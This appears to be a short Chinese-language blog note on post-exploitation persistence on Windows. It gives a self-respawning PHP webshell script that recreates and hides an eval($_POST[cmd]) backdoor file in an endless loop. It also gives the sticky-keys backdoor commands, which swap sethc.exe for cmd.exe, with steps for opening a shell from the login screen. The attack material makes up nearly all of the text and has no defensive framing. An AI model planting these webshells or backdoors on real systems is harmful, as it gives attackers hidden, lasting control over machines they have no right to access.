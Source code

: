 ```yaml
---
title: 权限维持
date: 2023-09-03 14:06:26
tags:
- 权限
categories:
- 权限
---
```


# 权限维持



## windows

### php不死马

```
<?php
ignore_user_abort(); //关掉浏览器，PHP脚本也可以继续执行.
set_time_limit(0);//通过set_time_limit(0)可以让程序无限制的执行下去
$interval = 5; // 每隔*秒运行
do {
$filename = 'test.php';
if(file_exists($filename)) {
echo "xxx";
}
else {
$file = fopen("test.php", "w");
$txt = "<?php @eval($_POST[cmd]); ?>\n";   //木马密码cmd
fwrite($file, $txt);
fclose($file);
eval(system("Attrib +s +a +h +r test.php")); //隐藏文件
}
sleep($interval);
} while (true);
?>
```

### 粘滞键后门

```
move C:\windows\system32\sethc.exe C:\windows\system32\sethc.exe.bak
Copy C:\windows\system32\cmd.exe C:\windows\system32\sethc.exe
```

1. 将sethc.exe的拥有者改为administrator
2. 运行上面的话即可
3. 五次shift即可cmd
